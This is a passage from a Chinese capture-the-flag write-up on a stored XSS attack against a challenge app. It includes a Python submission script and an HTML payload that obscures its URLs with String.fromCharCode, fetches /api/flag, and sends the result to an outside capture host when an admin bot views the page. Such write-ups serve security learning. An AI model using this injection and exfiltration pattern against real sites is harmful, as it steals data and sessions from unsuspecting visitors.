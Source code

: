 ​	通知AdminBot访问我们构造的恶意页面，获取其Hash

​	使用AdminHash提交我们的恶意脚本，提交代码如下，

```python
import requests

session = requests.Session()
headers = {
    'Cookie': 'Token=2333',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36'
}
Hash = 'e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855'
payload = '<script>fetch(String.fromCharCode(47, 97, 112, 105, 47, 102, 108, 97, 103)).then(function(response) {return response.text();}).then(function (text) {var img = new Image();img.src = String.fromCharCode(104,116,116,112,115,58,47,47,104,111,111,107,98,46,105,110,47,75,51,120,88,101,76,74,79,111,109,72,80,77,75,56,56,77,75,86,55,63,102,108,97,103,61) + encodeURIComponent(text);})</script>'
paramPost = {
    'Hash': Hash,
    'Raw': payload
}
resp = session.post('http://localhost:8080/api/create',
                    json=paramPost, headers=headers)
print(resp.content)
```

​	恶意脚本如下（获取FLAG）

```html
<script>
    fetch(String.fromCharCode(47, 97, 112, 105, 47, 102, 108, 97, 103))
    .then(function(response) {
        var img = new Image();
        img.src = String.fromCharCode(104, 116, 116, 112, 115, 58, 47, 47, 104, 111, 
        111, 107, 98, 46, 105, 110, 47, 75, 51, 120, 88, 101, 76, 74, 79, 111, 109, 
        72, 80, 77, 75, 56, 56, 77, 75, 86, 55, 63, 102, 108, 97, 103, 61) // 攻击者控制的Web服务器
        + encodeURIComponent(response.text());
    })
</script>
```



​	当Admin访问我们的页面时（`/REDACTED/0`），我们的恶意Script将会被执行，形成 Stored XSS。

{{< image src="https://image.p1nant0m.com/image-20210927190809809.png" caption="访问恶意页面触发脚本执行" src_s="https://image.p1nant0m.com/image-20210927190809809.png" src_l="https://image.p1nant0m.com/image-20210927190809809.png" >}}

​	我们注入的恶意脚本就从数据库中导出并且构成HTML文档的一部分，被浏览器解释执行，

{{< image src="https://image.p1nant0m.com/image-20210927191107611.png" caption="恶意代码拼接进入 HTML 文档" src_s="https://image.p1nant0m.com/image-20210927191107611.png" src_l="https://image.p1nant0m.com/image-20210927191107611.png" >}}

​	最终我们可以在受我们控制的服务器中获得我们的FLAG，
